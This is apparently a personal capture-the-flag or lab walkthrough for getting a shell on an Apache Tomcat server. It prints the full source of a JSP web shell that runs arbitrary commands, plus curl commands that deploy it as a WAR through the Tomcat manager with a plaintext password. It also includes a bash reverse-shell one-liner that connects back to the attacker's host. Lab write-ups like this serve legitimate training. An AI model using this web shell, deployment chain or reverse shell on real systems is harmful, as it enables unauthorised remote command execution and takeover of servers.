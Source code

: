 # Getting a Shell

### Put files mannualy with Curl 

content of cmdjsp.jsp
```java
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=POST ACTION='cmdjsp.jsp'>
<INPUT name='eris' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("eris");
   String output = "";

   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>


```

Tranform the .jsp to .war (tomcat only accpted war files)

```bash
$ zip cmdjsp.war cmdjsp.jsp
```

```bash
curl -T cmdjsp.war -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app
```
![[Pasted image 20211213124649.png]]


http://10.10.10.194:8080/app/cmdjsp.jsp
![[Pasted image 20211213124746.png]]

Can't do reverse shell, the cmdjsp.jsp doens't like the characteres of the reverse shell.
 Do a curl to save our shell file on the system and execute
 
 content of shell.sh
 
 ```bash
 bash -c 'bash -i >& /dev/tcp/10.10.14.21/9001 0>&1
 ```
 
 
 ![[Pasted image 20211213130845.png]]
 
 ![[Pasted image 20211213131208.png]]
 
 ![[Pasted image 20211213131230.png]]
 
 ![[Pasted image 20211213131241.png]]